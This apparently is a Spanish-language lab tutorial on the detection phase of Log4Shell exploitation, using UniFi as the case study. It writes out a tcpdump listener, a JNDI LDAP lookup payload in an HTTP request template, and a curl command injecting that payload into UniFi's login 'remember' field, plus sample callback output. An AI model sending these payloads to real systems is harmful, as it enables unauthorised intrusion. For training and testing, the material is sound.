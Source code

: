 
## Fases de Explotación General de Log4Shell

El proceso de explotación de Log4Shell generalmente sigue las siguientes fases:

### 1. Detección de la Vulnerabilidad (JNDI Lookup)

Antes de lanzar un ataque completo, es crucial verificar si el sistema es realmente vulnerable y si está procesando las cadenas JNDI.

**Concepto:** Se envía una petición con una cadena JNDI que apunta a una IP y puerto bajo nuestro control. Se monitorea el tráfico para ver si el servidor vulnerable intenta iniciar una conexión.

1.  **Ponerse a la escucha para el tráfico LDAP en la máquina atacante:**
    En tu máquina atacante, abre una terminal y monitoriza el puerto LDAP (389) en la interfaz de red que uses para el ataque (ej., `tun0`, `eth0`). Esto permitirá ver cualquier intento de conexión entrante.

    ```bash
    tcpdump -i tun0 port 389
    ```

    * `tcpdump`: Herramienta para capturar y analizar tráfico de red.
    * `-i tun0`: Especifica la interfaz de red a monitorizar.
    * `port 389`: Filtra el tráfico solo para el puerto LDAP.

2.  **Enviar el payload de prueba a la aplicación objetivo:**
    Identifica un campo de entrada en la aplicación web o servicio que pueda ser logueado por Log4j (ej., campos de usuario, contraseñas, encabezados HTTP como `User-Agent`, parámetros de URL, etc.).
    Reemplaza `[IP_ATACANTE]` con la IP de tu máquina.

    ```http
    POST /ruta/a/endpoint/vulnerable HTTP/1.1
    Host: [IP_OBJETIVO]:[PUERTO]
    Content-Type: application/json
    Content-Length: [Calcula la longitud apropiada]

    {"param_vulnerable":"${jndi:ldap://[IP_ATACANTE]/}", "otro_param": "valor"}
    ```

    **Ejemplo usando `curl` (UniFi como caso de estudio):**

    ```bash
    curl -X POST -H "Content-Type: application/json" -d '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.92/}", "strict":true}' https://[IP_UNIFI]:8443/api/login --insecure
    ```

    En este ejemplo específico de UniFi, el campo `remember` del endpoint `/api/login` es vulnerable.

3.  **Corroborar la conexión en `tcpdump`:**
    Si la aplicación es vulnerable, verás una conexión entrante en tu `tcpdump` desde la IP del objetivo a tu IP en el puerto LDAP (389).

    ```
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    22:32:06.697503 IP [IP_OBJETIVO].49590 > [IP_ATACANTE].ldap: Flags [S], seq 1616762290, win 64240, options [mss 1362,sackOK,TS val 3116354986 ecr 0,nop,wscale 7], length 0
    22:32:06.697544 IP [IP_ATACANTE].ldap > [IP_OBJETIVO].49590: Flags [R.], seq 0, ack 1616762291, win 0, length 0
    ```
